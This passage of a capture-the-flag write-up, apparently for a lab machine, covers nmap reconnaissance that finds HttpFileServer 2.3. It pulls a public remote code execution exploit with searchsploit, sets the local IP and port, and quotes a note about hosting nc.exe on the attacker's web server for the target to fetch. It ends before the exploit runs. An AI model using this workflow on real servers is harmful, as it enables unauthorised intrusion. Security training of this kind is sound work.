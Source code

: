 ### Nmap

```
nmap -sC -sV -oA optimum 10.10.10.8 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- port 80 (HTTP) - HttpFileServer 2.3 (HFS)

So there is only the web port open, I have the version so let's check on searchsploit if there is known exploits.

![Searchsploit HFS](/assets/imgs/optimum/searchsploit_HFS.PNG)

There is a Remote Code Execution, nice let's download it and try it :

```
searchsploit -m windows/remote/39161.py
```

Reading throught the code I see that I have to modify the ip and port :

```
ip_addr = "10.10.14.10" #local IP address
local_port = "1234" # Local Port number
```

And there is a note who say : 

```
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

So I need nc, copy it to my directory :

```
cp /usr/share/windows-resources/binaries/nc.exe ./
```

I'm ready to exploit !

## Exploit
